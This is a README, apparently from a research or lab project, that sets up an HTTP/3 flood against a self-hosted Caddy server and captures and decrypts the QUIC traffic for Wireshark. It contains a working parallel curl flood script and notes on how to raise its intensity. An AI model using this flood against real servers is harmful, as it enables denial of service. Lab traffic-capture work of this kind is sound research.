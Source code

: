 # HTTP3-Flood Attack

This module launches a high-volume HTTP/3 flooding attack using `curl` in a Docker container.  
The goal is to overwhelm the target server with large amounts of QUIC traffic.

---

## 🔧 Prerequisites

- Ensure the **Caddy server** is running with HTTP/3 support.  
  If not yet set up, refer to the root [`CaddySetup.md`](../docs/CaddySetup.md) for installation and configuration instructions.

- Docker must be installed on the attacking machine.

- The project folder should contain:
  - `Dockerfile`
  - `http3-flood.sh` (the attack script)
  - An `output/` directory (to store captured PCAP and TLS key files)

---

## 📝 Attack Script Configuration

Open `http3-flood.sh` and edit the target URL:
```bash
seq 1 10 | xargs -n1 -P10 timeout 1s curl --insecure -X GET https://<your-server-ip> \
-H "method: HEAD" -H "method: POST" -H "method: GET" -H "settings: 0" \
--data "\x00\x00..." --http3 -v -o /dev/null
```
- Replace <your-server-ip> with the IP or domain of your target server.
- You can change the intensity using seq and -P values (more parallel threads =   stronger flood).

## 🐳 Docker Setup and Execution
#### 0. Install Docker if it's missing
```bash
sudo apt update
sudo apt install docker.io
sudo systemctl enable docker
sudo systemctl start docker
```

### 1. Build the Docker Image
```bash
docker build -t curl-http3 .
```

### 2. Run the Container and Launch the Attack
```bash
docker run -it \
  --network host \
  --cap-add=NET_ADMIN \
  --cap-add=NET_RAW \
  -e SSLKEYLOGFILE=/tmp/sslkeys.log \
  -v $(pwd)/output:/tmp \
  curl-http3
```
Once inside the container:

```bash
tcpdump -i any -w /tmp/attack.pcap &
bash /root/http3-flood.sh
pkill tcpdump
```
Captured files will be saved to the output/ folder on your host:
- attack.pcap (captured packets)
- sslkeys.log (used to decrypt QUIC)

---

## 🔓 Decrypting QUIC Traffic in Wireshark
- 1. Open output/attack.pcap in Wireshark.

- 2. Go to:
        Edit → Preferences → Protocols → TLS

- 3. Set the log file path:
```bash
(Pre)-Master-Secret log filename: ./output/sslkeys.log
```
- 4. Apply changes — decrypted HTTP/3 traffic should now be visible.

---

## ✅ Optional:
Modify and run timer_script.sh in another terminal to monitor the server's response time during the flood.


